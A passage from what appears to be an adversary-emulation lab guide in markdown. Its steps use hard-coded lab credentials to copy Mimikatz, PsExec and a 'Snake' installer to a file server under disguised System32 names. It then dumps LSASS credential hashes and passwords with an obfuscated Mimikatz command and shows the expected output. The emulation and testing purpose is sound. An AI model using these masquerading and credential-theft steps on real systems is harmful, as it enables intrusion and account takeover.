 * When prompted, type in the username and password for `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:

```pwsh
whoami
```

:arrow_right: Return to your Kali C2 server

* From the `smbclient` Kali terminal tab, copy MimiKatz, PsExec, and the Snake installer, to the file server `berzas`:

```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/mimikatz.exe Windows\System32\loadperf.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\fs_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v3.exe Windows\System32\cmu_svc.exe'
```

:arrow_right: Go back to the RDP session to `Berzas (10.100.30.204)` as `EgleAdmin`:

* Open File Explorer and browse to C:\Windows\System32. Order files by date.

* Open command prompt (cmd) as an administrator. If prompted for credentials, use the following:

| Username      | Password |
| :--------:    | :---------------: |
| nk\EgleAdmin  | Producer1! |

* In the admin cmd prompt, run Mimikatz to dump all NTLM hashes from `LSASS.exe`:

```bat
C:\Windows\System32\loadperf.exe pr::d slsa::lop quit 
```

* :heavy_exclamation_mark: Verify that the password and NTLM hash for `ZilvinasAdmin` appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `* Username : ZilvinasAdmin`
  * You may have to go up a few results to find the hash and password
  * The output should contain:
>
* > ```text
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >     * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >     * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >     tsPkG : 
    > --
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * Password : Producer2!
    >     kErberoS : 
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK.LOCAL
    >     * Password : (null)
    >     sSp : 
    >     crEdMan :
    >    ```
